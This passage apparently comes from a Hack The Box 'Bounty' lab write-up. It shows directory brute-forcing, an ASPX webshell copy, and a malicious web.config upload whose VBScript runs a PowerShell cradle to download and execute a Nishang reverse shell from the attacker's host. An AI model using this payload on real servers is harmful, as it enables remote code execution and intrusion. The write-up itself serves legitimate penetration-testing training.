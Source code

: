 ```bash
[####################] - 4m     90000/90000   359/s   http://10.129.199.36/UploadedFiles 
[####################] - 4m     90000/90000   353/s   http://10.129.199.36/Aspnet_client 
[####################] - 4m     90000/90000   357/s   http://10.129.199.36/aspnet_Client 
[####################] - 4m     90000/90000   373/s   http://10.129.199.36/aspnet_client/system_web 
[####################] - 3m     90000/90000   412/s   http://10.129.199.36/ASPNET_CLIENT 
[####################] - 3m     90000/90000   434/s   http://10.129.199.36/Aspnet_client/system_web 
[####################] - 2m     90000/90000   539/s   http://10.129.199.36/aspnet_Client/system_web 
[####################] - 1m     90000/90000   850/s   http://10.129.199.36/ASPNET_CLIENT/system_web 

```
There is a file called `transfer.aspx` on the webserver, let's visit it in the browser.
![Image](/assets/img/WriteUp/HTB/Bounty/Pasted image 20230413224940.png){: width="700" height="400" }

It looks like we can upload files here. We should copy the cmd asp file to our working directory and upload it to the webserver.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ cp /usr/share/webshells/aspx/cmdasp.aspx .

```
Let's upload the file.

![Image](/assets/img/WriteUp/HTB/Bounty/Pasted image 20230413230835.png){: width="700" height="400" }

It looks like we cannot upload an ASPX file. We could consider uploading a `*.config` file with a call to our nishang reverse shell.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ nano web.config    

┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ cat web.config                 
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.44/Invoke-PowerShellTcp.ps1')")
%>

```
